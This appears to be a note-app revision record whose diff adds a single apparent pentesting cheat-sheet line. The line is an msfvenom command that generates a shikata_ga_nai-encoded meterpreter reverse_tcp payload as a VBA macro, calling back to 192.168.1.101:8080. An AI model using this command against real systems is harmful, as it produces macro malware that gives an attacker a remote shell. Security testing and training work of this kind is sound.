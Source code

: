 id: 72dc672834be45d487b171d3dbf79f7c
parent_id: d5a6ac9f2635448e879ceab2df1e6405
item_type: 1
item_id: 371ec7610fb4403abf7288f049055edb
item_updated_time: 1643214319651
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"sing VBA\"],[1,\"\\\n\\\nmsfvenom -a x86 --platform windows -p windows/meterpreter/reverse\\\\_tcp LHOST=192.168.1.101 LPORT=8080 -e x86/shikata\\\\_ga_nai -f vba-exe\"]],\"start1\":1,\"start2\":1,\"length1\":8,\"length2\":145}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-26T16:25:50.883Z
created_time: 2022-01-26T16:25:50.883Z
type_: 13